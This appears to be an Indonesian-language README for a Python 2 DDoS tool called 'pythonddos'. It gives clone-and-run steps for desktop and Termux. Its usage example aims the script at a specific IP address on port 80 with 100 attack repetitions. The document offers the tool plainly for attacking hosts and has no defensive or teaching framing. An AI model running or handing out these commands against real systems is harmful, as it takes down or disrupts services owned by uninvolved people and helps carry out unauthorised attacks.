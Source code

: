 # pythonddos

cara download :
1. git clone https://github.com/dimss7/pythonddos
2. cd pythonddos
3. chmod +x ddospython.py
4. python2 ddospython.py

python2 hostname,port,jumlah serangan ddos
contoh :
  python2 120.29.226.121 80 100 ddospython.py
  
  tekan ENTER
  
 Download lewat Termux
 cara download :
 1. pkg install git
 2. pkg install python2
 3. git clone https://github.com/dimss7/pythonddos
 4. cd pythonddos
 5. chmod +x ddospython.py
 6. python2 ddospython.py
 
 python2 hostname,port,jumlah serangan ddos
contoh :
  python2 120.29.226.121 80 100 ddospython.py
  
  tekan ENTER
  
  #tq
